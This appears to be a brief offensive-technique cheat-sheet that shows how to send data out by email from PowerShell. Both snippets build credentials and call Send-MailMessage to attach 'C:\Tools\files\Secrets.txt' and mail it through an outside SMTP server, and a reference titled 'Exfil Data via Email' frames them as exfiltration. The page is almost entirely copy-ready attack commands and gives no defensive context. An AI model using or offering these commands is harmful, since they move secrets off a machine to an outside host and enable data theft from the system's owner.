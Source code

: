 # SMTP

## 01 - Powershell

### 1.1 - Send-MailMessage

```powershell
PS C:\> $username = 'bob@mail.ru'
$password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force
$credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password
Send-MailMessage -From 'Bob <bob.baronov@mail.ru>' -To 'Alice <alice@mail.ru>' -Subject 'From powershell' -Body 'See  attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

Here's an example

```powershell
PS C:\> $username = 'alice@mail.ru'; $password = ConvertTo-SecureString -String "<password>" -AsPlainText -Force; $credentials = New-Object -TypeName  System.Management.Automation.PSCredential -ArgumentList $username, $password;  Send-MailMessage -From 'bob <bob@mail.ru>' -To 'Alice  <alice@mail.ru>' -Subject 'From powershell' -Body 'See  attachments.' -Attachments 'C:\Tools\files\Secrets.txt' -SmtpServer 'box.mail.ru' -Credential $credentials
```

---
## References

- [Exfil Data via Email](https://docs.anarchy-farm.com/exfil-data-via-e-mail)
